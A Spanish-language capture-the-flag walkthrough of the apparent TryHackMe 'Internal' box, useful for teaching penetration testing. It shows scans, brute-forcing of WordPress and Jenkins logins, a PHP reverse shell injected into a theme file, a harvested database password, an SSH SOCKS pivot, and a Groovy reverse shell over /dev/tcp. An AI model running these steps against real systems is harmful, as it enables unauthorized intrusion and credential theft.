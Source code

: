 1. **Modificar el archivo /etc/hosts**

       - IP internal.thm

2. **Nmap** 

       - sudo nmap -sV -sC -Pn -v 10.10.17.84 -o port_scan

3. **Uso de dirb**
 ````
---- Scanning URL: http://10.10.17.84/ ----
==> DIRECTORY: http://10.10.17.84/blog/
+ http://10.10.17.84/index.html (CODE:200|SIZE:10918)
==> DIRECTORY: http://10.10.17.84/javascript/
==> DIRECTORY: http://10.10.17.84/phpmyadmin/
+ http://10.10.17.84/server-status (CODE:403|SIZE:276)
==> DIRECTORY: http://10.10.17.84/wordpress/
 ````

4. **Escaneo en Wordpress**
 ````
[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://internal.thm/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://internal.thm/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 
[+] WordPress theme in use: twentyseventeen
 | Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-03-09T00:00:00.000Z
 | Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.6
 | Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a f>
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'
  ````
5. **Fuerza bruta en Wordpress**

        - wpscan --url http://internal.thm/blog/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames admin --max-threads 50
        ````
        [!] Valid Combinations Found:
        | Username: admin, Password: *******
        Correo: admin@internal.thm
        ````
6. **Creamos una reverse shell en Wordpress**

        -  Vamos a los temas
        - Customize
        - Inyectamos en 404.php la reverse shell --> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
        - Nos conectamos: http://10.10.17.84/wordpress/wp-content/themes/twentyseventeen/404.php
        - Estamos a la escucha: nc -lvp 4444
7. **Usuario phpmyadmin**

        - Encontramos un usuario pero no podemo acceder a su directorio. Seguimos buscando:
        - En /etc/phmyadmin encontramos unas credenciales:
                -- cat config-db.php
                
         ````
         <?php
        ##
        ## database access settings in php format
        ## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
        ## by /usr/sbin/dbconfig-generate-include
        ##
        ## by default this file is managed via ucf, so you shouldn't have to
        ## worry about manual changes being silently discarded.  *however*,
        ## you'll probably also want to edit the configuration file mentioned
        ## above too.
        ##
        $dbuser='phpmyadmin';
        $dbpass='B2Ud4fEOZmVq';
        ````
        
8.  **Accedemos y no se encuentra nada.**
9. **Tras una larga busqueda de versiones, exploits, etc. Encontramos en el directorio /opt un .txt con credenciales.**
        
        - aubreanna:*****

10. **Nos conectamos por SSH y nos encontramos con el archivo jenkins.txt:**
        
         Internal Jenkins service is running on 172.17.0.2:8080

11. **Creamos un proxy socks para ver que nos encontramos**
        . ssh -D "10101" -q -N -f aubreanna@10.10.17.84
        . Configuramos el proxy en firefox y nos conectamos.
        . Nos encontramos un login de jenkins.
        
12. **Realizamos un ataque de fuerza bruta contra el servicio**

        - proxychains hydra 172.17.0.2 -s 8080 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or >
        
        - Contraseña encontrada:
       [proxychains] Strict chain  ...  127.0.0.1:10101  ...  172.17.0.2:8080 [proxychains] Strict chain  ...  127.0.0.1:10101  ...  172.17.0.2:8080 [8080]            [http-post-form] host: 172.17.0.2
       login: admin   password: *******
       [STATUS] attack finished for 172.17.0.2 (valid pair found)
       1 of 1 target successfully completed, 1 valid password found

13. **Creamos una reverse shell en jenkins.**

        - Manage --> Script console
        - Groovy script:
     
````
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.17.84/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
````


14. **Tenemos una shell como usuario jenkins.**

        - En el directorio /opt --> note.txt
        - root:*******

15. **Accedemos por ssh**

        - root.txt
        - Obtenemos la flag: ***********


